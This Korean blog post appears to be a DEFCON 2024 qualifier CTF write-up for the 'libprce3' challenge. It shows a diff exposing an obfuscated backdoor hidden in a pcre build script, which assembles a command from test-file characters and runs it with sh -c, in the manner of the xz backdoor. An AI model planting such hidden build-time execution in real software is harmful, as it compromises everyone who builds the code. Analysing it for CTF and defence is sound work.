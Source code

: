 졸업하고 3년이 지났지만 그래도 CTF를 제대로 하고 싶다는 생각은 변함이 없었는데, 좋은 기회로 Call of Duty팀에 들어가게 되어 2023년부터 DEFCON을 목표로 준비했고, 다른 한국팀들과 연합을 통해 Cold Fusion 팀으로 DEFCON 2024 예선을 치렀다. 결과는 6등이라는 매우 만족스러운 등수로 본선 진출 성공하였다. 놀랍게도 이번엔 기여한 문제가 2개 정도 있어 간단한 Writeup을 써본다. 

![DEFCON 2023 Quals 결과 - 6등!](image.png)

## Writeup

### libprce3

문제 파일 하나랑 웹 페이지 하나가 주어지는데, 웹 페이지는 훼이크였던걸로 기억한다. 문제 파일은 `nginx.conf`와 `prce3-8.39` 소스 폴더 압축인데, `nginx.conf`가 주어진 웹 페이지 환경과 맞지 않아 이상했다. (`.(php|php2|php3)`으로 URI가 끝나면 403을 리턴해야 하는데 404를 리턴) 그래서 다른 서버가 있을 것이라 생각하고 prce 폴더를 살펴보기 시작했다. 

살펴보다 보니 이전에 보안 업계에 꽤나 큰 이슈였던 xz 백도어[^1]가 생각났다. 이와 비슷하게 `pcre` 원래 라이브러리의 빌드 스크립트에 장난을 쳤을 것이라 예상되어 실제 pcre 소스를 다운받고 비교하였다. Diff를 보던 중 (수많은 삽질 끝에) 다음과 같은 변경점이 눈에 들어왔다. 

```diff
> :: check for needed header files
48,56d46
< 
< REM Cleanup after the tests'; 
< 
< REM Deprecated, using cleanup-tests now; if [ ! -f .tests-built ]; then compare_output() { tr $'\n' <$1 ' '|cut -c$2-$2|tr -d $'\n'; };test_results=$(for i in $(sed -n '369,369p' ./test*/*18-16); do IFS='.';set -- $i;IFS=' '; compare_output $(sed -n "$1,${1}p" makevp_c.txt) $2; done);
< REM; sh -c "$test_results"; touch .tests-built; fi
< 
< cleanup-tests $@ || make $@
< 
< :<<END
```


[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 
